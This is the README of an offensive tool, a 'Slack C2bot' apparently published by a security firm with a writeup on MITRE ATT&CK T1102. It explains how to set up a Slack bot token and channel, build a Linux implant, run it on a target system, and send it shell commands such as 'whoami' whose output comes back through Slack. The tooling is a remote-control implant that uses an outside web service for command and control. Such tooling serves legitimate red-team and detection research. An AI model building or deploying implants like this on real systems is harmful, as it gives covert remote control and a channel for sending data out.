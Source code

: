# Slack C2bot

Slack C2bot that executes commands and returns the output.

Learn more by reading our full writeup:
[Using Slack as a Malicious C2 Vector: MITRE ATT&CK – Web Service (T1102)](https://p16.praetorian.com/blog/using-slack-as-malicious-c2-vector-mitre-attack-web-service-t1102)

## Setup

Install Golang and requirements:

```
sudo apt install golang-go
sudo apt install git
```

Install the Slack library:

```
go get "github.com/nlopes/slack"
```

## Usage

```
./build.sh [$CHANID] [$SLACKTOKEN]
```

The build script will generate a UUID for your bot.

If you dont already have a workspace you will need to [create one](https://slack.com/create).

Once you have a workspace, open a channel and note the channel id. This can be found by opening the channel in your browser. The uri is /messages/channelid/.

Save this as $CHANID.

Next, you will need to add a bot to your workspace. This can be done using the following steps:

- [Open https://api.slack.com/](https://api.slack.com/)
- Click Start building. Enter the name of the bot and the workspace.
- On the left menu listing, click: OAuth & Permissions
- Scroll down to Scopes. Add channels:history and chat:write:bot permissions.
- Click save.
- Scroll to the top of the page and click Install App to Workspace.
- Click authorize on the new popup.


Slack OAuth Token. This can be found by opening Your Apps -> Click the bot -> OAuth & Permissions.

Save this as $SLACKTOKEN.

Run the build script.

```
./build.sh $CHANID $SLACKTOKEN
```

Run the Slack c2 bot on the target system.

```
./output/lin_implant.bin
```

Open the Slack channel.

After the bot checks-in, you can task the bot to execute a command using the
following syntax:

```
[UUID] run whoami
```

The bot will post the output. 
